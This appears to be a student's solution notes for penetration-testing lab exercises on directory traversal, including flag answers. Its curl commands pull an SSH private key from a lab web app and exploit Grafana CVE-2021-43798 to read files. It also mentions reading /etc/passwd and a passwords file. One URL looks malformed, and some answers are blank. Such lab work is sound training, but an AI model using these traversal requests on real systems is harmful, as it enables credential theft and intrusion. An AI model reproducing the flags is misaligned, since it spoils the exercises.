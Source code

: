 ### 9.1.2

1. Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use **curl** or _Burp_ to obtain the SSH private key for the user _offsec_. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
```bash
curl -i http://offsec/mountaindesserts.com/meteor/index.php?page=../../../../../../../home/offsec/.ssh/id_rsa
# copy only key part & save in offsec_sshkey file
# tighten up perms on key file
chmod 400 offsec_sshkey
# ssh into machine w/ user's key
ssh -i offsec_sshkey -p 2222 offsec@mountaindesserts.com
```
![](9.1.2ex_sshkey.png)

> Answer:  OS{f1f9402e3eb3a12db339d05dc20243c2}



2. The target VM #2 runs _Grafana_ on port 3000. The service is vulnerable to CVE-2021-43798, which is a directory traversal vulnerability. Search for "golangexample cve-2021-43798" in a search engine to get familiar with how the vulnerability can be exploited. Use **curl** and the **--path-as-is** parameter to find the flag in **C:\\Users\\install.txt**.

For vuln info:
- https://vulncheck.com/blog/grafana-cve-2021-43798
- https://j0vsec.com/post/cve-2021-43798/
- https://grafana.com/grafana/plugins/all-plugins/ - list of plugins
```bash
curl --path-as-is http://192.168.241.193:3000/public/plugins/mysql/../../../../../../../../../../Users/install.txt
```

> Answer:  OS{ddde2d80de63bc146da5725841ddd324}


### 9.1.3 Encoding Special Characters

1. In this section, we used URL encoding to exploit the directory traversal vulnerability in Apache 2.4.49 on VM #1. Use _Burp_ or **curl** to display the contents of the **/opt/passwords** file via directory traversal in the vulnerable Apache web server. Remember to use URL encoding for the directory traversal attack. Find the flag in the output of the file.

> Answers:  .


2. Grafana is running on port 3000 on VM #2. The version running is vulnerable to the same directory traversal vulnerability as in the previous section. While URL encoding is not needed to perform a successful directory traversal attack, experiment with URL encoding different characters of your request to display the contents of **/etc/passwd**. Once you have a working request utilizing URL encoding, obtain the flag by displaying the contents of **/opt/install.txt**.

> Answers:  .